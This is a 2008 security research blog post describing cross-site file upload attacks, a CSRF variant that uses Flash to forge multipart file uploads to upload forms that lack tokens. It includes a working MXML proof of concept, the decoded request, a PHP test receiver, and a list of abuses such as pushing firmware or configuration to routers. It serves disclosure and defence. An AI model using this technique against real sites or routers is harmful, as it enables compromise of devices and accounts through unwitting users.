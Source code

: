 ```yaml
---
title: Cross-site File Upload Attacks
author: pdp
date: Thu, 21 Feb 2008 12:15:32 GMT
template: post.jade
---
```


As you probably already know, CSRF attack are only possible when the attacked web application does not have an additional mechanism to ensure that requests towards it are genuine. In order to do that, the web developer must include a unique token for each request, which is validated on the server upon receiving a request. If the request value that represents the token matches the token that was generated for the request, then it is considered genuine and it should be left for additional processing. However, if both values do not match then the request is considered forged and as such should be disregarded.

Unfortunately, when it comes to file upload facilities, developers often forget to make such checks relying on the fact that file uploads are not spoofable, which in general is the correct assumption. However, when dealing with Web technologies, we often stumble across nasty surprises. The reason CSRF attacks against file uploads are not possible is because the HTML FORM specifications are not versatile enough to define sub-fields like `filename="whatever.txt"`, which are vital parts of the `multipart/form-data` specifications when submitting files. This is the only restriction and I will show you that attackers can easily overcome it with a bit of help from Flash.

## Cross-site File Uploads

We've already proved that various forms of home routers can be [entirely compromised](/blog/hacking-the-interwebs/) and hacked by [forging UPnP requests with flash](/blog/flash-upnp-attack-faq/). Now I will show you that file uploading facilities can be attacked in a similar way. Let's examine the following code, which you can compile with Flex2 SDK - `c:\Flex2\bin\mxmlc code.mxml`:

```xml
<mx:Application xmlns:mx="http://www.adobe.com/2006/mxml" creationComplete="onAppInit()">
	<mx:Script>
		/* by Petko D. Petkov; pdp
		 * GNUCITIZEN
		 **/
		import flash.net.*;

		private function onAppInit():void
		{
			var r:URLRequest = new URLRequest('http://victim.com/upload.php');

			r.method = 'POST';
			r.data = unescape('-----------------------------109092118919201%0D%0AContent-Disposition%3A form-data%3B name%3D%22file%22%3B filename%3D%22gc.txt%22%0D%0AContent-Type%3A text%2Fplain%0D%0A%0D%0AHi from GNUCITIZEN%21%0D%0A-----------------------------109092118919201%0D%0AContent-Disposition%3A form-data%3B name%3D%22submit%22%0D%0A%0D%0ASubmit Query%0D%0A-----------------------------109092118919201--%0A');
			r.contentType = 'multipart/form-data; boundary=---------------------------109092118919201';

			navigateToURL(r, '_self');
		}
	</mx:Script>
</mx:Application>
```

If you carefully read the content of the script you will notice that we are preparing an `URLRequest` object which we load with a `POST` method, a `contentType` which equals to `multipart/form-data` and a url-encoded data text. If we unencode the text we get the following result. Now let's have a look at it as well. Notice the `filename="gc.txt"` field:

```http
-----------------------------109092118919201
Content-Disposition: form-data; name="file"; filename="gc.txt"
Content-Type: text/plain

Hi from GNUCITIZEN!
-----------------------------109092118919201
Content-Disposition: form-data; name="submit"

Submit Query
-----------------------------109092118919201--
```

This looks like a valid `multipart/form-data` file upload, doesn't it? If you compile and execute the code you will see that the file upload is completely valid and will upload a file called `gc.txt` with content of `Hi from GNUCITIZEN!`. But you can also use the following PHP script to verify the result if you feel skeptical about the whole concept.

```php
<?php if ($_FILES['file']['error'] > 0): ?>
	<h1>Failiure</h1>
	<pre>
		<?php print_r($_FILES) ?>
	</pre>
<?php elseif (isset($_FILES['file'])): ?>
	<h1>Success</h1>
	<pre>
		<?php print_r($_FILES) ?>
		<?php echo file_get_contents($_FILES['file']['tmp_name']) ?>
	</pre>
<?php else: ?>
	<form method="post" enctype="multipart/form-data">
		<input type="file" name="file"/> 
		<input type="submit" name="submit"/>
	</form>
<?php endif ?>
```

## The Impact of Cross-site File Upload (CSFU) Attacks

Like CSRF attacks, there are plenty of things one can do with this type of technique. Here is a couple of evil things that come into my mind:

* Upload a nasty picture on someone's profile - I admit this is not very useful but still very funny and open for abuse.
* Upload a shiny new firmware to the router that is under attack by using the user as a proxy. This is pretty nasty and given the fact that there are numerous authentication bypass and A-to-C bugs floating around, it is very, very feasible.
* Upload a shiny new configuration file on the router that is under attack. Same as the one above - very feasible and easy to perform.
* Upload executable scripts on CMS - this of course is a bit more targeted..
